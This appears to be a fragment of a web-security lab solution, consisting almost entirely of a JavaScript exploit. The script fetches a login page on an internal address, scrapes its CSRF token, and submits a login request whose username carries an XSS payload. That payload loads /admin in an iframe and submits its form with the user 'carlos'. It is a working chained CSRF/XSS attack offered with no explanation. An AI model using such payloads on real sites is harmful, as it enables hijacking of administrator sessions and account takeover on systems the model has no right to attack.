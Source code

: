 
4.
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url){
	fetch(url).then(r=>r.text().then(text=>
	{
	xss(url, text, '"><iframe src=/admin onload="var f=this.contentWindow.document.forms[0];if(f.username)f.username.value=\'carlos\',f.submit()">');
	}
	))
}

fetchUrl("http://192.168.0.113:8080");
</script>
